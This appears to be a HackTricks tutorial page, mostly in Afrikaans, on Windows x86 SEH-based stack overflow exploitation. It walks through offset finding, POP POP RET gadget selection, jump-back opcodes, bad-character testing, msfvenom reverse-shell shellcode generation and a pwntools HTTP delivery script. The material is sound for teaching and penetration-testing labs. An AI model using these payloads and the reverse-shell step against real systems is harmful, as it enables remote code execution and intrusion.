 # Windows SEH-based Stack Overflow Exploitation (nSEH/SEH)

{{#include ../../banners/hacktricks-training.md}}

SEH-based eksploitasie is 'n klassieke x86 Windows-tegniek wat die Structured Exception Handler-ketting op die stapel misbruik. Wanneer 'n stapel-bufferoorloop die twee 4-byte velde oorskryf

- nSEH: pointer to the next SEH record, and
- SEH: pointer to the exception handler function

kan 'n aanvaller die uitvoering oorneem deur:

1) SEH op die adres van 'n POP POP RET gadget in 'n nie-beskermde module te stel, sodat wanneer 'n exception verwerk word die gadget terugkeer na bytes onder die aanvaller se beheer, en
2) nSEH te gebruik om die uitvoering te herlei (tipies 'n kort spring) terug na die groot oorstroomde buffer waar shellcode lê.

Hierdie tegniek is spesifiek vir 32-bit prosesse (x86). Op moderne stelsels, verkies 'n module sonder SafeSEH en ASLR vir die gadget. Slegte karakters sluit dikwels 0x00, 0x0a, 0x0d (NUL/CR/LF) in weens C-strings en HTTP parsing.

---

## Vind presiese offsets (nSEH / SEH)

- Laat die proses crash en verifieer dat die SEH-ketting oor geskryf is (bv., in x32dbg/x64dbg, kyk die SEH view).
- Stuur 'n cyclic pattern as die oorvloeiende data en bereken die offsets van die twee dwords wat in nSEH en SEH beland.

Voorbeeld met peda/GEF/pwntools op 'n 1000-byte POST body:
```bash
# generate pattern (any tool is fine)
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 1000
# or
python3 -c "from pwn import *; print(cyclic(1000).decode())"

# after crash, note the two 32-bit values from SEH view and compute offsets
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l 1000 -q 0x32424163   # nSEH
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l 1000 -q 0x41484241   # SEH
# ➜ offsets example: nSEH=660, SEH=664
```
Valideer deur merkers op daardie posisies te plaas (bv., nSEH=b"BB", SEH=b"CC"). Hou totale lengte konstant om die crash reproduseerbaar te maak.

---

## Kies 'n POP POP RET (SEH gadget)

Jy benodig 'n POP POP RET-sekwensie om die SEH-raamwerk af te rol en terug te keer na jou nSEH-bytes. Vind dit in 'n module sonder SafeSEH en by voorkeur sonder ASLR:

- Mona (Immunity/WinDbg): `!mona modules` dan `!mona seh -m modulename`.
- x64dbg plugin ERC.Xdbg: `ERC --SEH` om POP POP RET gadgets en SafeSEH-status te lys.

Kies 'n adres wat geen badchars bevat wanneer dit little-endian geskryf word nie (bv., `p32(0x004094D8)`). Gee voorkeur aan gadgets binne die kwesbare binary as beskermings dit toelaat.

---

## Jump-back tegniek (short + near jmp)

nSEH is slegs 4 bytes, wat hoogstens 'n 2-byte short jump (`EB xx`) plus padding kan huisves. As jy honderde bytes terug moet spring om jou buffer-begin te bereik, gebruik 'n 5-byte near jump wat net voor nSEH geplaas is en koppel dit met 'n short jump vanaf nSEH.

Met nasmshell:
```text
nasm> jmp -660           ; too far for short; near jmp is 5 bytes
E967FDFFFF
nasm> jmp short -8       ; 2-byte short jmp fits in nSEH (with 2 bytes padding)
EBF6
nasm> jmp -652           ; 8 bytes closer (to account for short-jmp hop)
E96FFDFFFF
```
Uitleg-idee vir 'n 1000-byte payload met nSEH op offset 660:
```python
buffer_length = 1000
payload  = b"\x90"*50 + shellcode                    # NOP sled + shellcode at buffer start
payload += b"A" * (660 - 8 - len(payload))           # pad so we are 8 bytes before nSEH
payload += b"\xE9\x6F\xFD\xFF\xFF" + b"EEE"     # near jmp -652 (5B) + 3B padding
payload += b"\xEB\xF6" + b"BB"                      # nSEH: short jmp -8 + 2B pad
payload += p32(0x004094D8)                           # SEH: POP POP RET (no badchars)
payload += b"D" * (buffer_length - len(payload))
```
Execution flow:
- Exception gebeur, dispatcher gebruik die oor-geskryfde SEH.
- POP POP RET ontvou na ons nSEH.
- nSEH voer `jmp short -8` uit na die 5-byte near jump.
- Die near jump land by die begin van ons buffer waar die NOP sled + shellcode lê.

---

## Slegte karakters

Bou 'n volledige badchar string en vergelyk die stack memory na die crash, en verwyder bytes wat deur die teiken-parser gemanipuleer word. Vir HTTP-based overflows, `\x00\x0a\x0d` word byna altyd uitgesluit.
```python
badchars = bytes([x for x in range(1,256)])
payload  = b"A"*660 + b"BBBB" + b"CCCC" + badchars  # position appropriately for your case
```
---

## Shellcode generation (x86)

Gebruik msfvenom met jou badchars. 'n klein NOP sled help om landingsvariasie te verdra.
```bash
msfvenom -a x86 --platform windows -p windows/shell_reverse_tcp LHOST=<LHOST> LPORT=<LPORT> \
-b "\x00\x0a\x0d" -f python -v sc
```
As dit on-the-fly gegenereer word, is die hex-formaat gerieflik om in Python te embed en te unhex:
```bash
msfvenom -a x86 --platform windows -p windows/shell_reverse_tcp LHOST=<LHOST> LPORT=<LPORT> \
-b "\x00\x0a\x0d" -f hex
```
---

## Aflewering oor HTTP (presiese CRLF + Content-Length)

Wanneer die kwesbare vektor 'n HTTP request body is, skep 'n raw request met presiese CRLFs en Content-Length sodat die server die hele oorvloeiende body lees.
```python
# pip install pwntools
from pwn import remote
host, port = "<TARGET_IP>", 8080
body = b"A" * 1000  # replace with the SEH-aware buffer above
req = f"""POST / HTTP/1.1
Host: {host}:{port}
User-Agent: curl/8.5.0
Accept: */*
Content-Length: {len(body)}
Connection: close

""".replace('\n','\r\n').encode() + body
p = remote(host, port)
p.send(req)
print(p.recvall(timeout=0.5))
p.close()
```
---

## Gereedskap

- x32dbg/x64dbg om die SEH-ketting te bekyk en die crash te triageer.
- ERC.Xdbg (x64dbg plugin) om SEH-gadgets te enumereer: `ERC --SEH`.
- Mona as 'n alternatief: `!mona modules`, `!mona seh`.
- nasmshell om kort/na-bye spronge te assembleer en rou opkodes te kopieer.
- pwntools om presiese netwerk-payloads te skep.

---

## Notas en voorbehoude

- Slegs van toepassing op x86-prosesse. x64 gebruik 'n ander SEH-skema en SEH-gebaseerde uitbuiting is oor die algemeen nie haalbaar nie.
- Voorkeur vir gadgets in modules sonder SafeSEH en ASLR; anders, vind 'n onbeveiligde module wat in die proses gelaai is.
- Diens-watchdogs wat outomaties na 'n crash herbegin, kan iteratiewe exploit-ontwikkeling vergemaklik.

## Verwysings
- [HTB: Rainbow – SEH overflow to RCE over HTTP (0xdf)](https://0xdf.gitlab.io/2025/08/07/htb-rainbow.html)
- [ERC.Xdbg – Exploit Research Plugin for x64dbg (SEH search)](https://github.com/Andy53/ERC.Xdbg)
- [Corelan – Exploit writing tutorial part 7 (SEH)](https://www.corelan.be/index.php/2009/07/19/exploit-writing-tutorial-part-7-unicode-0day-buffer-overflow-seh-and-venetian-shellcode/)
- [Mona.py – WinDbg/Immunity helper](https://github.com/corelan/mona)

{{#include ../../banners/hacktricks-training.md}}
